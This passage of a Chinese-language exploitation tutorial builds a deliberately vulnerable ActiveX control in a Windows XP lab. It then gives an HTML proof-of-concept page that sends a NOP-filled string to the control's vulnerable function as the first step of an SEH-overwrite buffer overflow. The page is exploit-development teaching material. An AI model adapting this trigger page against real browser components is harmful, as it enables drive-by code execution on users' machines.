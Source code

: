接着如下设置工程属性：

![Bildschirmfoto 2018-10-02 um 9.15.58 AM.png]({{ site.url }}/images/0day/E08356DECD4802707DE29B53CD2478F4.png)

在确认以下条件均满足后生成项目：

```
WinXP SP3
DEP关闭
VS 2008
禁用优化
在静态库中使用MFC
使用Unicode字符集
release版本
```

成功生成[VulnerAX_SEH.ocx](quiver-file-url/58D24188-D1E2-42CD-8E7A-3C769DAEE16C.ocx)。

接下来在系统中注册这个控件：

![Bildschirmfoto 2018-10-02 um 9.25.10 AM.png]({{ site.url }}/images/0day/6FA5F76061212F6311E1485052C94D91.png)

**下面我们制作可以触发ActiveX控件中溢出漏洞的PoC页面：**

首先找到classid：

![Bildschirmfoto 2018-10-02 um 10.48.14 AM.png]({{ site.url }}/images/0day/1E001018337EFBD8290F59DFADEF36A5.png)

网页源码如下，需要注意的是其中我们自己的ActiveX控件的classid要用上面的：

```html
<html>  
<body>  
  <object classid="clsid:D27CDB6E-AE6D-11cf-96B8-444553540000" codebase="http://download.macromedia.com/pub/shockwave/cabs/flash/swflash.cab#version=9,0,28,0" width="160" height="260">
  <param name="movie" value="1.swf" />
  <param name="quality" value="high" />
  <embed src="1.swf" quality="high" pluginspage="http://www.adobe.com/shockwave/download/download.cgi?P1_Prod_Version=ShockwaveFlash" type="application/x-shockwave-flash" width="160" height="260"></embed>
  </object>
  <object classid="clsid:D301257B-57E9-44BE-8EDB-C0F06BE6B55A" id="test"></object>  
  <script>
	var s = "\u9090";
	while (s.length < 60) {
	s += "\u9090";
	}
    test.test(s);  
  </script>  
</body>  
</html>
```

简单解释一下：

[1.swf](quiver-file-url/0C9BA0217FCEF5DC02F2CC975D2136E2.swf)是一个随意选择的Flash，为的是让浏览器加载Flash控件。之后就是通过`script`中的内容去向这个控件的漏洞函数传递shellcode。后面的思路就是最基本的覆盖SEH技术。我们把shellcode先用nop填充。
